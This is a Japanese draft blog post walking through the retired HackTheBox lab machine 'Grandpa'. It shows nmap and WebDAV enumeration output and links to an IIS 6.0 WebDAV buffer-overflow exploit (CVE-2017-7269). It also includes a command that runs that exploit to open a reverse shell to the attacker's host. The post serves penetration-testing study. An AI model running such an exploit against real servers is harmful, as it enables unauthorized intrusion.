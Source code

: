 ```yaml
---
title: 【Easy/Windows】Grandpa Writeup(HackTheBox)
date: "2022-06-04"
template: "post"
draft: true
slug: "hackthebox-windows-grandpa"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Grandpa」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-06-04-hackthebox-windows-grandpa/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「」のWriteUpです。

## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->

## もくじ





## Reconnaissance(TA0043)



### Gather Victim Host Information(T1592)



``` bash
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 04 Jun 2022 01:01:45 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.16 seconds
```



![image-20220604100328237](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604100328237.png)



``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster1.txt

/images               (Status: 301) [Size: 152] [--> http://targethost.htb/images/]
/Images               (Status: 301) [Size: 152] [--> http://targethost.htb/Images/]
/IMAGES               (Status: 301) [Size: 152] [--> http://targethost.htb/IMAGES/] 
/_private             (Status: 403) [Size: 1529] 
```

- Images

![image-20220604100519971](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604100519971.png)

- _private

![image-20220604101247760](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604101247760.png)



- 特に有益な情報はでない

``` bash
$ feroxbuster -u http://targethost.htb/  -x asp,aspx -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt | tee feroxbuster.txt
```





``` bash
$ /usr/bin/davtest -url http://targethost.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://targethost.htb
********************************************************
NOTE    Random string for this session: raQC3An4
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     jhtml   FAIL
PUT     cfm     FAIL
PUT     cgi     FAIL
PUT     jsp     FAIL
PUT     txt     FAIL
PUT     pl      FAIL
PUT     php     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     html    FAIL
PUT     aspx    FAIL

********************************************************
```

参考：[ハッカーはDAVTestでWebDAVが有効なサーバーをテストする(Kali Linux) | AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/davtest/)

参考：[Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow - Windows remote Exploit](https://www.exploit-db.com/exploits/41738)



``` bash
root@pentestlab:~# python revshell.py 
usage:iis6webdav.py targetip targetport reverseip reverseport

root@pentestlab:~# python revshell.py 10.10.10.14 80 10.10.14.2 9999
```



参考：[iis6-exploit-2017-CVE-2017-7269/iis6 reverse shell at master · g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell)





``` bash
whoami /priv
```







